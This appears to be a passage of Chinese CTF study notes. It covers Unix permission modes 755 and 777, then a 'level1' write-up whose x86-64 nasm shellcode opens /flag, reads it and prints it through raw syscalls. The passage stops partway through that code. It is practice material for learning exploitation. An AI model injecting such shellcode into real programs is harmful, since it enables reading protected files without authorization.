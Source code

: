 - **用户（所有者）**: 读、写和执行（7）
- **组**: 读和执行（5）
- **其他用户**: 读和执行（5）

权限表示：

```
-rwxr-xr-x (755)
```

**777**

- **用户（所有者）**: 读、写和执行（7）
- **组**: 读、写和执行（7）
- **其他用户**: 读、写和执行（7）

权限表示：

```
-rwxrwxrwx (777)
```

### 10.


## level1

这个题可以用nasm直接编译汇编语言，我居然还在用python，写汇编语言的二进制表示然后再写入文件中。因为我卡在了不知道把字符串应该放在哪里？到底是放在baby程序的栈中，还是放在我的代码的最后部分。其实是一致的，因为你所有的输入都在baby程序的栈中，只不过位置不同。

nasm编译汇编语言，居然可以指定段中的数据。而且这里使用的都是系统调用，不用再通过plt段获取一些动态链接函数的地址了。

利用程序
```asm
BITS 64

section .data
    filename db '/flag', 0    ; 文件路径需要替换为正确的路径

section .bss
    buffer resb 100                   ; 100 字节缓冲区

section .text
global _start

_start:
    ; open("filename", O_RDONLY)
    xor rax, rax
    mov rax, 2                        ; SYS_open
    lea rdi, [rel filename]
    xor rsi, rsi                      ; O_RDONLY = 0
    syscall

    ; 检查 open 的返回值
    test rax, rax
    js error                          ; 如果打开文件失败，跳转到错误处理

    ; read(fd, buffer, 100)
    mov rdi, rax                      ; fd
    lea rsi, [rel buffer]
    mov rdx, 100                      ; 读取 100 字节
    xor rax, rax                      ; SYS_read
    syscall

    ; write(1, buffer, rax)
    mov rdi, 1                        ; stdout
    mov rdx, rax                      ; 读取的字节数
    mov rax, 1                        ; SYS_write
```